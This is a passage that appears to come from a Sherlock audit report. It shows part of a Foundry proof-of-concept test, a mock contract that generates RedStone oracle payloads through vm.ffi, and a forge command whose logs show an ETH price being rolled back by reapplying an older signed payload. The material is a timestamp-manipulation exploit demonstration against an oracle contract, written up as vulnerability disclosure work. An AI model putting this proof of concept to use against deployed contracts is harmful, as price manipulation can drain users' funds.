 ```solidity
            abi.encodePacked(abi.encodeWithSignature("updatePrice()"), beforePayload)
        );
        require(success);

        console.log("ETH:", sherlockRedstoneCoreOracle.ethUsdPrice());
        console.log("USDC:", sherlockRedstoneCoreOracle.assetUsdPrice());
    }

}

/// @notice A contract which we can use to pull results from
/// @notice `getRedstonePayload.js`, a utility which enables
/// @notice us to mock redstone payloads for local development.
/// @notice This is only used when `GENERATE_REDSTONE_PAYLOADS=true`.
/// @notice Credit: https://github.com/redstone-finance/minimal-foundry-repo/blob/main/getRedstonePayload.js
contract SherlockMockRedstonePayload is Test {
    function getRedstonePayload(
        // dataFeedId:value:decimals
        string memory priceFeed,
        // i.e. 1000
        string memory timestampMilliseconds
    ) public returns (bytes memory) {
        string[] memory args = new string[](4);
        args[0] = "node";
        args[1] = "../minimal-foundry-repo/getRedstonePayload.js";
        args[2] = priceFeed;
        args[3] = timestampMilliseconds;

        return vm.ffi(args);
    }
}
```

Next, run `ARB_RPC_URL="arbitrum-archive-node-url" forge test --match-test "testSherlockRedstoneTimestampManipulation" --ffi -vv` to yield the following:

```shell
Ran 1 test for test/Sherlock.t.sol:SherlockTest
[PASS] testSherlockRedstoneTimestampManipulation() (gas: 1332213)
Logs:
  Apply Before Payload:
  ETH: 300000000000
  USDC: 100000000
  Apply After Payload:
  ETH: 298900000000
  USDC: 100000000
  Apply Before Payload Again:
  ETH: 300000000000
  USDC: 100000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.52s (2.52s CPU time)

Ran 1 test suite in 3.10s (2.52s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
